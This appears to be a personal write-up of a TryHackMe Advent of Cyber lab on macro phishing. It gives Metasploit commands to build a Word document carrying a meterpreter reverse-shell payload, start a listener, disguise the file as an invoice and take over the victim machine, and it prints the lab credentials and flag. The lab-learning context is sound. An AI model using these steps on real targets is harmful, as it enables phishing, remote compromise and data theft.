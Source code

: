 ```yaml
---
title: Day 10 He had a brain full of macros, and had shells in his soul.
date: 2024-12-14 00:00:00
categories: Cybersecurity Tryhackme
tags:
  - Advent_of_cyber
  - THM
  - Writeups
by: Mahmud
---
```

### Objective :
##### to now 
-  Phishing Attacks 
   its part of social engineer it aim's on send a bait to large number of people and make the to open or download malicious link or file
-  Macros
   is set of instructor or program that MS Office user can do to automate some tasks and its so powerful
- Metasploite
  The world's most used penetration testing _framework_. Knowledge is power,

****
### Attack Plane
1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker’s system
3. Email the document and wait for the target user to open it
4. The target user opens the document and connects to the attacker’s system
5. Control the target user’s system

****

1. first start machine and connect Kali to the network using OpenVPN and your credential config file 
   
2. in terminal open metasploite by type `msfconsle`
3. now we will create malicious doc in `msf6>` start type
- `set payload windows/meterpreter/reverse_tcp` 
     specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
- `use exploit/multi/fileformat/office_word_macro` 
  specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST CONNECTION_IP` 
  specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox (Kali)
- `set LPORT 8888` 
  specifies the port number you are going to listen on for incoming connections on the AttackBox (Kali)
- `show options` 
  shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example

```terminal 
msf6 exploit(multi/fileformat/office_word_macro) > show options 

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting     Required  Description
   ----            ---------------     --------  -----------
   CUSTOMTEMPLATE  /usr/share/metaspl  yes       A docx file that will be used
                   oit-framework/data            as a template to build the exp
                   /exploits/office_w            loit
                   ord_macro/template
                   .docx
   FILENAME        msf.docm            yes       The Office document macro file
                                                  (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thre
                                        ad, process, none)
   LHOST     10.9.4.230       yes       The listen address (an interface may be
                                         specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows



View the full module info with the info, or info -d command.
  ```

- `exploit` 
  generates a macro and embeds it in a document
- `exit` 
  to quit and return to the terminal
  
1. the generated file `msf.docm` stored at `/home/kali/.msf4/local/msf.docm`
2. so now when victim open the file he will see a regular word file the he can't see the code easily 
3. this is the macro 


![](./assets/img/Pasted image 20241218235024.png){: .shadow }


- `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
- `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
- `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

#### Listening for Incoming Connections
1. use `msfconsle` again
2.  now follow the steps :
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` 
- `set LHOST CONNECTION_IP` Attack box or kali IP
- `set LPORT 8888` Attack box or kali IP
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell
1.  need to send the document to `marta@socmas.thm` by go to `http://MachineIP`then   and login via given credential  
   - Email: `info@socnas.thm`
   - Password: `MerryPhishMas!
2. for best practice change document name to something relevant like such as `invoice.docm` or `receipt.docm`  

```shell-session
──(kali㉿kali)-[~/.msf4/local]
└─$ mv msf.docm /home/kali/Desktop           
┌──(kali㉿kali)-[~/Desktop]
└─$ mv msf.docm invoice.docm
```   

1. after send the document you will see in `msfconsle` 

```shell-session
[*] Started reverse TCP handler on 10.9.4.230:8888 
[*] Sending stage (176198 bytes) to 10.10.242.146
[*] Meterpreter session 1 opened (10.9.4.230:8888 -> 10.10.242.146:50185) at 2024-12-19 00:17:45 +0200
```

1. you can see that the `msf6` turn into `meterpreter >` that mean the connection established and we are in the victim PC 
2. to find flag navigate to Desktop by

```shell-session
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
Listing: c:\users\Administrator\Desktop
=======================================

Mode            Size  Type  Last modified             Name
----            ----  ----  -------------             ----
100666/rw-rw-r  527   fil   2016-06-21 17:36:17 +020  EC2 Feedback.website
w-                          0
100666/rw-rw-r  554   fil   2016-06-21 17:36:23 +020  EC2 Microsoft Windows Gui
w-                          0                         de.website
100666/rw-rw-r  282   fil   2021-03-17 17:13:27 +020  desktop.ini
w-                          0
100666/rw-rw-r  23    fil   2024-11-12 05:42:45 +020  flag.txt
w-                          0

meterpreter > cat flag.txt
THM{PHISHING_CHRISTMAS}
meterpreter >
```

1. So the flag is `THM{PHISHING_CHRISTMAS}`
